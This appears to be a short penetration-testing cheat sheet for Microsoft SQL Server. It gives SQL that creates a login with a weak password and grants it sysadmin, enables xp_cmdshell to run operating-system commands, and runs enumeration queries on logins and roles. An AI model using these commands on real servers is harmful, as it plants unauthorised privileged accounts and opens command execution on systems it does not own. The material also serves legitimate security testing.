 # MS SQL

Create a new login, map it to the `db_owner` user and assign the `sysadmin` role:

```sql
CREATE LOGIN [snovvcrash] WITH PASSWORD=N'Passw0rd!';
CREATE USER [snovvcrash] FOR LOGIN [snovvcrash];
ALTER ROLE [db_owner] ADD MEMBER [snovvcrash];
EXEC master..sp_addrolemember @rolename=N'db_owner', @membername=N'snovvcrash';
EXEC master..sp_addsrvrolemember @rolename=N'sysadmin', @loginame=N'snovvcrash';
EXEC master..sp_addremotelogin 'SQLSRV01\SQLEXPRESS', 'snovvcrash';
```

Check the state of `xp_cmdshell`:

```sql
SELECT * FROM sys.configurations WHERE name = 'xp_cmdshell';
```

Enable `xp_cmdshell`:

```sql
1> EXEC sp_configure 'show advanced options', 1
2> GO
1> RECONFIGURE
2> GO
1> EXEC sp_configure 'xp_cmdshell', 1
2> GO
1> RECONFIGURE
2> GO
1> EXEC xp_cmdshell 'whoami'
2> GO
```




## Enumeration

Current login name (SQL Server login or Domain/Windows username, like `sa`):

```sql
SELECT SYSTEM_USER;
```

Current database username (like `msdb.dbo`):

```sql
SELECT USER;
```

Test if current server role is `public` or `sysadmin`:

```sql
SELECT IS_SRVROLEMEMBER('public');
SELECT IS_SRVROLEMEMBER('sysadmin');
```
